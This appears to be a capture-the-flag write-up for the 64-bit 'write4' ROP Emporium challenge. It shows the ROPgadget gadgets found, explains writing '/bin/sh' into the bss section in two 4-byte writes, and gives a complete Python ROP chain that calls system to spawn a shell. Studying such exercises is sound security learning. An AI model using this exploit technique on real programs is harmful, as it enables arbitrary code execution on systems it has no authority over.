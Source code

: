 # write4 - 64 bit
in the previous challanges we had the luxury of not having to craft our own strings as they were in the binary itself.   
this time we are not so lucky.(as you can see, no "cat flag.txt")   
  
![start](https://user-images.githubusercontent.com/60041914/78295574-0670e580-7535-11ea-983a-d7ebbd104b72.png)
  
we are tasked with writing our string to some memory address, setting edi to that address and jumping to system in the PLT.   
(for some backround info feel free to check out some of my writeups for the previous challanges in the series)
   
using ROPgadget we find some interesting gadgets:   
```nasm
0x0000000000400821 : mov dword ptr [rsi], edi , ret
0x0000000000400893 : pop rdi , ret
0x0000000000400891 : pop rsi , pop r15 , ret
```
"pop rdi , ret" could be used to set rdi.  
     
"pop rsi , pop r15 , ret" could be used to set rsi.    
(and r15 to some garbage value as it is unimportant) 
    
"mov dword ptr [rsi], edi , ret" writes the value of edi to the memory pointed to by rsi.  
    
so we have an arbitrary write. 
we just have to find somewhere to write to.
    
I chose someplace in the bss section as it is both readable and writeable.

having a second look at the gadgets I chose you might notice another thing:    
we can only write to memory 4 bytes at a time (edi-32 bits)    
because our desired string is 8 bytes ("/bin/sh\x00" ) we will need to preform 2 writes.   
   
knowing that we can now craft a ROP chain:
```python
STR_ADDR=0x006010b0
CALL_SYSTEM=0x004005e0
SET_RDI=0x00400893
SET_RSI=0x00400891
RDI_TO_pRSI=0x00400821

exploit=b'A'*40
exploit+=p64(SET_RSI)
exploit+=p64(STR_ADDR) # set rsi to the desired address
exploit+=p64(0x41414141) # r15 to a garbage value
exploit+=p64(SET_RDI)
exploit+=b"/bin\x00\x00\x00\x00" # set rdi to start of our string (with padding zeros)
exploit+=p64(RDI_TO_pRSI) # write memory
exploit+=p64(SET_RDI)
exploit+=b"/sh\x00\x00\x00\x00\x00" # set rdi to the end of our string
exploit+=p64(SET_RSI)
exploit+=p64(STR_ADDR+4) # place our string after the 4th character written
exploit+=p64(0x41414141) # r15 to a garbage value
exploit+=p64(RDI_TO_pRSI) # preform another write
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR) # set rdi to point to our string
exploit+=p64(CALL_SYSTEM) #call system
```

pass it to our program.  
and...   
pwned.   
  
![pwned](https://user-images.githubusercontent.com/60041914/78295569-0375f500-7535-11ea-9a04-5bd70e08cee5.png)
